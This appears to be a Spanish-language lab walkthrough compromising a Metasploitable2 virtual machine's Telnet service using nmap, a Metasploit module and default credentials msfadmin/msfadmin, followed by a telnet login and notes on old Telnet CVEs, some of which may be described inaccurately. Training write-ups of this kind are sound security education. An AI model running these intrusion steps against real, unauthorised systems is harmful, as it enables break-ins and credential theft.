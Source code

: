 # Vulneración mediante explotación del servicio Telnet

Para esto nos apoyaremos de la herramienta `nmap` con el siguiente comando:

```bash
nmap -sV 192.168.222.131 
```

![nmap-scan](https://github.com/user-attachments/assets/59ee4216-3d88-4314-afa5-7a80d7068fd5)

---

Luego utilizamos la herramienta **Metasploit**, ingresando el siguiente comando para su ejecución:

```bash
msfconsole
```

En ella, buscaremos algún script que sea compatible con el servicio disponible y con nuestro objetivo: ingresar a la máquina.

![metasploit-search](https://github.com/user-attachments/assets/b1406250-e7d4-4116-b29a-573e1a07b68a)

Seleccionamos el módulo deseado con el comando:

```bash
use 3
```

![use-module](https://github.com/user-attachments/assets/36c2102b-0255-44ca-a1a7-b5d4929bb07a)

Visualizamos las opciones que tiene este script ya preparado, con el comando:

```bash
show options
```

![show-options](https://github.com/user-attachments/assets/33dd83f4-d1f3-4b29-a0b3-6b6d49f4af0c)

Como se puede identificar, nos falta completar el campo de `RHOST`, que sería la IP de nuestro objetivo.

En este caso, la IP es `192.168.222.131`, y se ingresa con el comando:

```bash
set RHOST 192.168.222.131
```

![set-rhost](https://github.com/user-attachments/assets/d02e1177-0d88-49c9-8774-37dee759692d)

Llegado a este punto, se ejecuta con el comando `run` o `exploit`:

```bash
run
```

![run-exploit](https://github.com/user-attachments/assets/cf8d7462-b4e1-4d3e-804f-cf8bf549b948)

Como se puede visualizar, gracias a este script se pudo obtener las credenciales de acceso a la máquina:

- **Usuario:** `msfadmin`  
- **Contraseña:** `msfadmin`

---

## Conexión mediante Telnet

Procedemos a realizar la conexión Telnet colocando la IP y el puerto del objetivo, mediante el siguiente comando:

```bash
telnet 192.168.222.131 23
```

Con esto se consagra la conexión con la máquina:

![telnet-access](https://github.com/user-attachments/assets/8a686e25-1fe0-48f5-8eec-09e79f8b7ce0)

---

Si bien es cierto, con la máquina objetivo en cuestión ya se muestran sus credenciales solo realizando una conexión mediante el servicio de Telnet, esta vulnerabilidad refleja malas prácticas de seguridad.

---

## Vulnerabilidades relacionadas

- **CVE-1999-0506** *(Telnet Daemon Authentication Bypass)*:  
  Esta es una CVE muy antigua y general para los demonios Telnet que podrían tener omisiones de autenticación o mecanismos de autenticación débiles. Aunque no es específica de Metasploitable2, el espíritu de esta vulnerabilidad (acceso fácil) es lo que Metasploitable2 pretende demostrar.

- **CVE-2001-0504** *(Telnet Daemon Remote Buffer Overflow)*:  
  Se refiere a desbordamientos de búfer en los demonios Telnet, que podrían conducir a la ejecución remota de código. Metasploitable2 está diseñado para tener este tipo de vulnerabilidades.

---

> ⚠️ **Importante:** Este laboratorio debe ser realizado únicamente en entornos controlados, como máquinas virtuales de prueba. Nunca ejecutes este tipo de acciones en sistemas sin autorización.
